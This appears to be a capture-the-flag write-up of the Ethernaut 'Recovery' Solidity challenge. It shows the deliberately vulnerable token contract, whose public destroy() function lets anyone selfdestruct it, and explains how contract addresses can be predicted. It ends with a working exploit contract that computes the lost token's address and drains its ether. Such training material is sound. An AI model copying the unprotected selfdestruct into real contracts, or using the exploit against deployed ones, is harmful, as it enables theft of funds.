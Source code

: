 <div align="center">

# Recovery

</div>



**Recovery (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}


```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

   - `Recovery` is a factory contract that deploys new `SimpleToken` contracts for anyone who calls `generateToken(...)`.  
   - `SimpleToken` stores balances and can receive ether via `receive()`. It also has a `destroy()` function that calls `selfdestruct(_to)` to send all its ether to the specified address.  
   - **Key idea:** Even if the deployed token contract address is “lost,” it can be **predicted** because Ethereum contract addresses are deterministic — based on the creator address and their nonce.


2. **Vulnerability Highlight (key part)**


```solidity
// destroy function allows anyone who knows the address to selfdestruct the contract
function destroy(address payable _to) public {
    selfdestruct(_to);
}
```


## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract Exploit {
    function recoverFunds(address recoveryAddr) public {
        address payable lostAddr = payable(
            address(
                uint160(
                    uint256(
                        keccak256(
                            abi.encodePacked(
                                bytes1(0xd6),
                                bytes1(0x94),
                                recoveryAddr,
                                bytes1(0x01)
                            )
                        )
                    )
                )
            )
        );

        ISimpleToken(lostAddr).destroy(payable(msg.sender));
    }
}


```

---


